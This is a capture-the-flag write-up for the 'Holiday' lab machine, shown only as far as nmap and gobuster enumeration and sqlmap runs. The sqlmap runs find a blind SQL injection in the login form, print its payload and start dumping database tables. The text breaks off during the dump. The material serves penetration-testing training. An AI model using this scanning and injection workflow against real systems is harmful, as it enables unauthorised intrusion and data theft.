


#### Holiday

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [SQLMap](#sqlmap)
- [XSS](#xss)
- [Command Injection](#command-injection)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation](#privilege-escalation)
- [Reference](#reference)

###### Attacker Info

```sh
root@kali:~/holiday# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.150.11  netmask 255.255.255.0  broadcast 192.168.150.255
        inet6 fe80::20c:29ff:feb0:a919  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:b0:a9:19  txqueuelen 1000  (Ethernet)
        RX packets 345  bytes 68231 (66.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 172  bytes 23722 (23.1 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.16  netmask 255.255.254.0  destination 10.10.14.16
        inet6 dead:beef:2::100e  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::8148:c514:1a7f:2523  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2  bytes 120 (120.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6  bytes 272 (272.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/holiday#
```

###### Nmap Scan

```sh
root@kali:~/holiday# nmap -sC -sV -oA holiday.nmap 10.10.10.25
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-15 03:14 EDT
Nmap scan report for 10.10.10.25
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c3:aa:3d:bd:0e:01:46:c9:6b:46:73:f3:d1:ba:ce:f2 (RSA)
|   256 b5:67:f5:eb:8d:11:e9:0f:dd:f4:52:25:9f:b1:2f:23 (ECDSA)
|_  256 79:e9:78:96:c5:a8:f4:02:83:90:58:3f:e5:8d:fa:98 (ED25519)
8000/tcp open  http    Node.js Express framework
|_http-title: Error
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.42 seconds
root@kali:~/holiday#
```

###### Web Enumeration

```
http://10.10.10.25:8000/
http://10.10.10.25:8000/robots.txt
http://10.10.10.25:8000/login
```


```sh
root@kali:~/holiday# gobuster -u http://10.10.10.25:8000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -a "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0"

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.25:8000/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307
[+] User Agent   : Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
=====================================================
/img (Status: 301)
/login (Status: 200)
/admin (Status: 302)
/css (Status: 301)
/Login (Status: 200)
/js (Status: 301)
/logout (Status: 302)
/agent (Status: 302)
/Admin (Status: 302)
/Logout (Status: 302)
=====================================================
root@kali:~/holiday#
```


###### SQLMap


```sh
root@kali:~/holiday# cat login.req
POST /login HTTP/1.1
Host: 10.10.10.25:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.25:8000/login
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=admin&password=password

root@kali:~/holiday#
```

```sh
root@kali:~/holiday# sqlmap -r login.req --level=5 --risk=3 --threads=10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.2.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 03:39:02

[03:39:02] [INFO] parsing HTTP request from 'login.req'
[03:39:03] [INFO] testing connection to the target URL
[03:39:03] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[03:39:03] [INFO] testing if the target URL content is stable
[03:39:04] [INFO] target URL content is stable
[03:39:04] [INFO] testing if POST parameter 'username' is dynamic
[03:39:04] [WARNING] POST parameter 'username' does not appear to be dynamic
[03:39:04] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[03:39:04] [INFO] testing for SQL injection on POST parameter 'username'
[03:39:05] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:39:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[03:39:41] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[03:39:46] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT)' injectable (with --string="Invalid User")
[03:39:48] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
[03:40:20] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[03:40:20] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[03:40:20] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[03:40:21] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[03:40:21] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[03:40:21] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[03:40:21] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:40:21] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:40:21] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:40:22] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:40:22] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[03:40:22] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[03:40:22] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[03:40:22] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[03:40:23] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[03:40:23] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[03:40:23] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[03:40:23] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[03:40:23] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[03:40:23] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[03:40:23] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[03:40:23] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[03:40:23] [INFO] testing 'MySQL inline queries'
[03:40:23] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[03:40:23] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[03:40:23] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[03:40:24] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[03:40:24] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[03:40:24] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[03:40:24] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[03:40:24] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (comment)'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (comment)'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[03:40:25] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[03:40:26] [INFO] testing 'MySQL <= 5.0.11 AND time-based blind (heavy query)'
[03:40:26] [INFO] testing 'MySQL <= 5.0.11 OR time-based blind (heavy query)'
[03:40:26] [INFO] testing 'MySQL <= 5.0.11 AND time-based blind (heavy query - comment)'
[03:40:26] [INFO] testing 'MySQL <= 5.0.11 OR time-based blind (heavy query - comment)'
[03:40:26] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind'
[03:40:27] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (comment)'
[03:40:27] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP)'
[03:40:27] [INFO] testing 'MySQL >= 5.0.12 RLIKE time-based blind (query SLEEP - comment)'
[03:40:27] [INFO] testing 'MySQL AND time-based blind (ELT)'
[03:40:27] [INFO] testing 'MySQL OR time-based blind (ELT)'
[03:40:27] [INFO] testing 'MySQL AND time-based blind (ELT - comment)'
[03:40:28] [INFO] testing 'MySQL OR time-based blind (ELT - comment)'
[03:40:28] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[03:40:28] [INFO] testing 'MySQL >= 5.1 time-based blind (heavy query - comment) - PROCEDURE ANALYSE (EXTRACTVALUE)'
[03:40:28] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace'
[03:40:28] [INFO] testing 'MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)'
[03:40:28] [INFO] testing 'MySQL <= 5.0.11 time-based blind - Parameter replace (heavy queries)'
[03:40:28] [INFO] testing 'MySQL time-based blind - Parameter replace (bool)'
[03:40:28] [INFO] testing 'MySQL time-based blind - Parameter replace (ELT)'
[03:40:28] [INFO] testing 'MySQL time-based blind - Parameter replace (MAKE_SET)'
[03:40:28] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:40:28] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[03:40:32] [INFO] testing 'Generic UNION query (random number) - 1 to 20 columns'
[03:40:36] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[03:40:41] [INFO] testing 'Generic UNION query (random number) - 21 to 40 columns'
[03:40:45] [INFO] testing 'Generic UNION query (NULL) - 41 to 60 columns'
[03:40:49] [INFO] testing 'Generic UNION query (random number) - 41 to 60 columns'
[03:40:52] [INFO] testing 'Generic UNION query (NULL) - 61 to 80 columns'
[03:40:56] [INFO] testing 'Generic UNION query (random number) - 61 to 80 columns'
[03:41:00] [INFO] testing 'Generic UNION query (NULL) - 81 to 100 columns'
[03:41:03] [INFO] testing 'Generic UNION query (random number) - 81 to 100 columns'
[03:41:07] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[03:41:11] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[03:41:15] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[03:41:18] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[03:41:22] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[03:41:26] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[03:41:30] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[03:41:34] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[03:41:38] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[03:41:42] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
[03:41:46] [WARNING] in OR boolean-based injection cases, please consider usage of switch '--drop-set-cookie' if you experience any problems during data retrieval
[03:41:46] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 710 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin") OR NOT 8597=8597 AND ("fhVX"="fhVX&password=password
---
[03:41:53] [INFO] testing MySQL
[03:41:53] [WARNING] the back-end DBMS is not MySQL
[03:41:53] [INFO] testing Oracle
[03:41:53] [WARNING] the back-end DBMS is not Oracle
[03:41:53] [INFO] testing PostgreSQL
[03:41:54] [WARNING] the back-end DBMS is not PostgreSQL
[03:41:54] [INFO] testing Microsoft SQL Server
[03:41:54] [WARNING] the back-end DBMS is not Microsoft SQL Server
[03:41:54] [INFO] testing SQLite
[03:41:54] [INFO] confirming SQLite
[03:41:54] [INFO] actively fingerprinting SQLite
[03:41:54] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[03:41:54] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.25'

[*] shutting down at 03:41:54

root@kali:~/holiday#
```

```sh
root@kali:~/holiday# sqlmap -r login.req --level=5 --risk=3 --threads=10 --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.2.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 03:42:05

[03:42:05] [INFO] parsing HTTP request from 'login.req'
[03:42:05] [INFO] resuming back-end DBMS 'sqlite'
[03:42:05] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=admin") OR NOT 8597=8597 AND ("fhVX"="fhVX&password=password
---
[03:42:05] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[03:42:05] [INFO] fetching tables for database: 'SQLite_masterdb'
[03:42:05] [INFO] fetching number of tables for database 'SQLite_masterdb'
[03:42:05] [INFO] retrieved: 5
[03:42:07] [INFO] retrieving the length of query output
[03:42:06] [INFO] retrieved: 5
[03:42:10] [INFO] retrieved: users
[03:42:10] [INFO] retrieving the length of query output
[03:42:10] [INFO] retrieved: 15
[03:42:17] [INFO] retrieved: sqlite_sequence
[03:42:17] [INFO] retrieving the length of query output
[03:42:17] [INFO] retrieved: 5
[03:42:21] [INFO] retrieved: notes
[03:42:21] [INFO] retrieving the length of query output
[03:42:21] [INFO] retrieved: 8
[03:42:25] [INFO] retrieved: bookings
[03:42:25] [INFO] retrieving the length of query output
[03:42:25] [INFO] retrieved: 8
[03:42:29] [INFO] retrieved: sessions
[03:42:29] [INFO] retrieving the length of query output
[03:42:29] [INFO] retrieved: 162
[03:43:10] [INFO] retrieved: CREATE TABLE bookings 'id INTEGER PRIMARY KEY AUTOINCREMENT,uuid TEXT,passengerName TEXT,bookingRef TEXT,email TEXT,total FLOAT,start DATE,end DATE,location TEXT)
[03:43:10] [INFO] fetching entries for table 'bookings' in database 'SQLite_masterdb'
[03:43:10] [INFO] fetching number of entries for table 'bookings' in database 'SQLite_masterdb'
[03:43:10] [INFO] retrieved: 100
Database: SQLite_masterdb
Table: bookings
[100 entries]
+------+------+------+-------+-------+-------+----------+------------+---------------+
| id   | uuid | end  | email | start | total | location | bookingRef | passengerName |
+------+------+------+-------+-------+-------+----------+------------+---------------+
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
| NULL | NULL | NULL | NULL  | NULL  | NULL  | NULL     | NULL       | NULL          |
+------+------+------+-------+-------+-------+----------+------------+---------------+

[03:43:14] [INFO] table 'SQLite_masterdb.bookings' dumped to CSV file '/root/.sqlmap/output/10.10.10.25/dump/SQLite_masterdb/bookings.csv'
[03:43:14] [INFO] retrieving the length of query output
[03:43:14] [INFO] retrieved: 146
